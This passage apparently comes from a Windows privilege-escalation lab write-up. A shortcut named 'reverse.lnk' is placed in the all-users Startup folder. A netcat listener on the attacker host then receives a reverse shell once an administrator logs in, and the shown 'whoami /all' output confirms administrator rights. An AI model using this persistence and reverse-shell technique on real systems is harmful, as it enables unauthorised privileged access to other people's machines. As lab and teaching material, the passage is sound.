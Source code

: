 ```powershell
PS C:\Users\user> powershell.exe /c "C:\Tools\CreateShortcut.ps1"
```

Check if the shortcut was created:

```powershell

PS C:\Users\user> dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.lnk"


    Directory: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2022   4:41 PM            611 reverse.lnk
```

Start a listener on the attacker host and then simulate an Administrator login using RDP. After a while, we should receive a shell running as an administrator:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 49898
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                     SID
============================= ============================================
desktop-bn\administrator S-1-5-21-264094270-2388996790-3434637240-500


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                         
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group 
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group 
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group 
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group 
```